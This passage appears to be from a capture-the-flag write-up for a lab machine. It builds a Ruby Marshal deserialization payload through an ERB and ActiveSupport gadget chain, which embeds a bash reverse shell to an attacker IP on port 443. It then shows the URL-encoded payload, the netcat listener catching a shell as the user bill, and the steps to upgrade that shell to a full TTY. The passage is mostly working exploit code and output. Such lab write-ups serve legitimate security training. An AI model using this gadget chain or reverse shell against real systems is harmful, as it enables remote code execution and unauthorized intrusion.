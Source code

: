     irb(main):010:0> code = '`bash -c "bash -i >& /dev/tcp/10.10.14.19/443 0>&1"`'
    => "`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`"
    irb(main):011:0> erb = ERB.allocate
    => #<ERB:0x00007f2e605598e0>
    irb(main):012:0> erb.instance_variable_set :@src, code
    => "`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`"
    irb(main):013:0> erb.instance_variable_set :@filename, "1"
    => "1"
    irb(main):014:0> erb.instance_variable_set :@lineno, 1
    => 1
    irb(main):015:0> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
    => "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\"9`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:\t@varI\"\f@result\x06;\tT:\x10@deprecatorIu:\x1FActiveSupport::Deprecation\x00\x06;\tT"
    irb(main):016:0> puts URI.encode_www_form(payload: payload)
    payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%229%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.19%2F443+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
    => nil
    

When I send that to the username, and then refresh `/articles`, I get a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.211.
    Ncat: Connection from 10.10.10.211:45312.
    bash: cannot set terminal process group (786): Inappropriate ioctl for device
    bash: no job control in this shell
    bill@jewel:~/blog$ id
    uid=1000(bill) gid=1000(bill) groups=1000(bill)
    

I’ll upgrade to a full TTY:

    
    
    bill@jewel:~/blog$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    bill@jewel:~/blog$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    bill@jewel:~/blog$
    